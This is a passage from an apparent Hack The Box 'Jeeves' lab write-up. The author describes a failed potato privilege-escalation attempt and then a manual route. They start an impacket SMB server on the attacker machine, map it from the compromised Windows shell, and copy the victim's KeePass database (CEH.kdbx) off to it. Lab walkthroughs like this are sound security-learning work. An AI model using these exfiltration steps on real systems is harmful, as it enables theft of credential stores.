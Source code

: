 ![Exploit Options](\Images\HTB4Jeeves\pic7.png)

So, at this point, I hit a snag following along with the video.  I could not, for the life of me, get the potato attack to work right.  I kept getting errors about the arch type and config were not matching.  It came down to the fact that I was trying to use an x86 version of meterpreter session with an x64 exploit.  So I went looking for a different way to crack this box.  I ended up finding a pretty solid way too.

So instead of going the metasploit way, I decided to follow the manual way.

```
(kali㉿kali)-$ impacket-smbserver Folder pwd
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
```

This time started an smb server on my kali device and used that to grab a file that I found.

```
C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,526,121,984 bytes free

C:\Users\kohsuke\Documents>net use s: \\10.10.14.31\Folder
net use s: \\10.10.14.31\Folder
The command completed successfully.


C:\Users\kohsuke\Documents>copy CEH.kdbx s:
copy CEH.kdbx s:
        1 file(s) copied.
```
